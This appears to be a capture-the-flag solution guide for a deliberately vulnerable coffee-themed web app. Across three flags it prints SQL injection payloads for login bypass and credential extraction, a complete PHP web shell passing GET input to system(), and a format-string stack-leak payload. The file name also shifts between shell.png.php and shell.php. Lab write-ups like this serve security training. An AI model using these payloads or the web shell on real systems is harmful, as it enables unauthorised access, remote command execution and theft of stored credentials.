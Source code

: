 # CTF Flags Documentation

## Flag 1: Admin Password Discovery

**Name**: Database Infiltration Flag
**Location**: Base64-encoded admin password in the users table
**Flag Format**: CTF{<admin-password-decoded>}

1. Initial SQL Injection Bypass
    1. Navigate to the login page
    2. Use SQL injection to bypass authentication:
        1. Username: ' OR 1=1 --
        2. Password: anything
    3. This logs you in as the first user in the database


2. Access Profile Page

    1. Navigate to index.php?page=profile
    2. Locate the "Share Your Experience" review section


3. Exploit SQL Injection in Review Update

    1. Use the review textarea to perform SQL injection via the updateReview() function
    2. First, discover database structure:
        ```sql
        sql', review_text=(SELECT GROUP_CONCAT(table_name SEPARATOR ', ') FROM information_schema.tables WHERE table_schema=database()) WHERE '1'='1' -- 
        ```


4. Extract User Table Columns

```sql
sql', review_text=(SELECT GROUP_CONCAT(column_name SEPARATOR ', ') FROM information_schema.columns WHERE table_name='users') WHERE '
1'='
1' --
```

5. Extract User Data

```sql
sql', review_text=(SELECT GROUP_CONCAT(CONCAT(username,':',password,':',role) SEPARATOR ', ') FROM users) WHERE '
1'='
1' --
```

6. Decode Admin Password
    1. Locate the admin user entry in the extracted data
    2. The password is stored as base64-encoded
    3. Decode the base64 string to reveal the flag

## Flag 2: File System Access

**Name**: Server File System Flag
**Location**: /flag.txt file on the server
**Flag** Format: CTF{<content-of-flag-txt>}

1. Obtain Admin Credentials
    1. Complete Flag 1 exploit to get admin username and decoded password
2. Login as Administrator
    1. Use the admin credentials to log in properly as admin user
3. Access File Upload Functionality
    1. As an admin user, the profile page shows file upload capability
    2. The upload function in handleFileUpload() has no file type restrictions for admins
4. Create PHP Web Shell
    1. Create a PHP file with web shell functionality:
   ```html
   <html>
    <body>
    <form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
    <input type="text" name="command" autofocus id="command" size="50">
    <input type="submit" value="Execute">
    </form>
    <pre>
    <?php
        if(isset($_GET['command'])) 
        {
            system($_GET['command'] . ' 2>&1'); 
        }
    ?>
    </pre>
    </body>
    </html>
    ```
   2. Save as shell.png.php
5. Upload Web Shell
   1. Use the profile image upload feature to upload shell.php
   2. The file will be stored in the /uploads/ directory
6. Access Web Shell
   1. Navigate to /uploads/shell.php
   2. Use the command interface to explore the file system
7. Locate and Read Flag
   1. Execute ls or dir to list files in the current directory
   2. Look for flag.txt

## Flag 3: Format String Vulnerability

**Name**: Secret Executable Flag #1
**Location**: challenge/web/uploads/vuln
**Flag** Format: CTF{}

1. Gain Admin Access  
   1. Complete Flag 2 to obtain access to the PHP web shell.

2. Download the Vulnerable Binary  
   1. List the files and locate the base64-encoded binary named `vuln`.
   2. Base64-encode the binary on the server so you can copy it:
      ```sh
      base64 ./vuln
      ```

3. Decode and Prepare the Binary  
   1. On your local machine, decode the base64 file and make it executable.

4. Run the Binary in Docker  
   1. Move the decoded `vuln` binary to the `challenge/secret-executable` directory.
   2. Build and run the Docker container:
      ```sh
      docker build -t secret-vuln .
      docker run -it --rm secret-vuln
      ```

5. Exploit the Format String Vulnerability  
   1. When prompted with:
      ```
      Welcome to HeadOfCoffee's Secret Order Printer!
      Place your custom order below:
      ```
   2. Enter the following format string payload to dump memory:
      ```
      %lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx
      ```

6. Extract the Flag  
   1. The output will display hexadecimal values from the stack. Look for values that resemble ASCII when converted.
   2. Example output:
      ```
      6e6133627b465443
      355f646e336c625f
      ```
   3. Reverse the byte order of each 64-bit chunk (little-endian) to reveal the flag:
      - `6e6133627b465443` → `CTF{b3an`
      - `355f646e336c625f` → `_bl3nd_5`
   4. Combine the parts to get the full flag:
      ```
      CTF{b3an_bl3nd_5}
      ```

